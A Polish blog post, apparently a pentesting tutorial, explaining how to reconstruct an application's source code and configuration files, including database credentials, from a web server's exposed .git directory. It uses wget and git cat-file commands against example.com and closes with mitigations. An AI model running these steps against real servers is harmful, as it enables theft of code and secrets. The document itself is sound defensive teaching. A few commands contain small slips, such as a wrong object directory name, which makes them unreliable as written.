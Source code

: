 ```yaml
---
layout: post
title: GIT repository pentesting
subtitle: Odczytywanie zawartości folderu .git
tags: [git pentesting, web app pentesting,web aplication pentesting, pentesting, GIT LOGS HEAD]
---
```


W trakcie przeprowadzanych przez nas testów penetracyjnych aplikacji webowych czasem zdarzy się nam natrafić na katalog .git z włączonym lub wyłączonym listowaniem plików.
Developerzy często zapominają/nie są świadomi że podczas używania komendy `git clone` automatycznie tworzony jest katalog .git zawierający metadane repozytorium.
Zdarza się również że repozytorium zawiera pliki konfiguracyjne z loginami/hasłami, które powinny znaleźć się w pliku gitignore.

Jakie korzyści daje nam dostęp do folderu .git?

Jeżeli przykładowa aplikacja nie jest open sourcowa, możemy przeprowadzić analizę kodu, do którego normalnie nie mielibyśmy dostępu.
W plikach konfiguracyjnych możemy znaleźć np. poświadczenia potrzebne do połączenia się z bazą danych itp

Z perspektywy osoby przeprowadzającej testy jest to bezcenne znalezisko, jak zatem odczytać zawartość repozytorium?

W przypadku gdy włączone jest listowanie plików, sprawa jest prosta.

Tworzymy folder, do którego pobierzemy całą zawartość katalogu .git

```
mkdir gitdump
```

Przechodzimy do folderu:
```
cd gitdump
```
Pobieramy zawartość katalogu wraz z podfolderami i wszystkimi plikami.
```
wget --mirror --include-directories=/.git http://example.com/.git
```
Po pobraniu wszystkich plików przechodzimy do folderu
```
cd example.com
```
i wykonujemy polecenie
```
git reset --hard
```
Jeżeli wszystko przebiegło bez problemów zobaczymy komunikat

HEAD is now at [...]

Po wylistowaniu zawartości folderu naszym oczom powinny sie ukazać pliki z kodem źródłowym aplikacji.

Trudniejszy, ale nie niemożliwy jest podgląd plików w przypadku gdy na serwerze wyłączone jest listowanie plików.

W takim przypadku po wejściu pod przykładowy adres example.com/.git nie zobaczymy żadnych podfolderów. W zależności od konfiguracji serwera www naszym oczom ukaże się blank page lub komunikat podobny to tego poniżej
```
Directory listing not allowed  
Forbidden
```
W takim przypadku warto sprawdzić czy mamy dostęp do pliku example.com/.git/logs/HEAD
Jeżeli tak naszym oczom ukaże się zawartość pliku:
```
0000000000000000000000000000000000000000 7fe18903e7977db3a373981fb775884c9189fab9 ...
```
Pliki zawarte w repozytorium możemy w takim wypadku odczytać poprzez wykonanie poniższych czynności:

Tworzymy przykładowy folder
```
mkdir gitexaple && cd gitexample
```
Inicjalizujemy nowe repozytorium
```
git init
```
Przechodzimy do folderu ./git/objects/

Tworzymy folder z nazwą stworzoną z dwóch pierwszych znaków zawartego w pliku .git/logs/HEAD HEAD commit ID
W naszym przypadku będzie to:
```
mkdir 7e && cd 7e
```
W folderze ./git/objects/ na serwerze www znajduje sie katalog odpowiadający dwóm pierwszym znakom HEAD commit ID z pliku .git/logs/HEAD a w nim plik którego nazwa to pozostałe znaki HEAD commit ID
Pobieramy go:
```
wget http://example.com/.git/objects/7f/e18903e7977db3a373981fb775884c9189fab9
```
a następnie czytamy jego zawartość:
```
git cat-file -p 7fe18903e7977db3a373981fb775884c9189fab9
```
po wywołaniu komendy zobaczymy kilka lini tekstu, interesuje nas tree id
```
...
tree e8189a98db67ce982248c72b56e5ba2102921bff
parent b7fe7438096875631fa6f917dc4a6896cbb9bf02
...
```
Analogicznie do poprzednio wykonanych kroków w katalogu .git/objects/ tworzymy folder nazwany na podstawie dwoch pierwszych znaków tree ID e8189a98db67ce982248c72b56e5ba2102921bff i pobieramy z niego plik nazwany resztą znaków z tree ID.
```
mkdir e8 && cd e8
wget http://example.com/.git/objects/e8/189a98db67ce982248c72b56e5ba2102921bff
```
i odczytujemy zawartość pobranego pliku
```
git cat-file -p e8189a98db67ce982248c72b56e5ba2102921bff
```
W tym momencie powinna ukazać sie nam lista plików zawartych w repozytorium oraz ciągi znaków potrzebne do ich odczytania, przykładowo:
```
040000 tree 7b557a72a79b3a38512139bac573e36b44c89181 cms
040000 tree d36e87fd76488f48acc41a6a585625a569db5f88 includes
040000 tree b97734c693e55982a6f2285f28e315e7af60d272 images
100644 blob 42fd8b71db9d1f2df671601a6b90c613a1cb6c40 db-config.php
100644 blob e63a64345d5d230a247876fe5f0fcf0f31bb2345 composer.json
040000 tree fbd1d628c2562ae14cf343e0b41cf190c05bedc8 library
```
Zakładając, że chcemy odczytać zawartość pliku db-config.php ponownie w .git/object tworzymy katalog 42 i pobieramy plik fd8b71db9d1f2df671601a6b90c613a1cb6c40:
```
mkdir 42 && cd 42
wget http://example.com/.git/objects/42/fd8b71db9d1f2df671601a6b90c613a1cb6c40
```
i oczytujemy jego zawartość:
```
git cat-file 42fd8b71db9d1f2df671601a6b90c613a1cb6c40
```
Całość procesu można zautomatyzować w dość prosty sposób.

Co robić aby nie spotkało to także nas? Oto kilka pomysłów:

Usunięcie folderu .git po check-oucie.  
Skorzystanie z .htaccess w celu zablokowania dostępu do folderu .git.  
Trzymanie folderu .git jeden poziom wyżej, w miejscu niedostępnym dla serwera www.
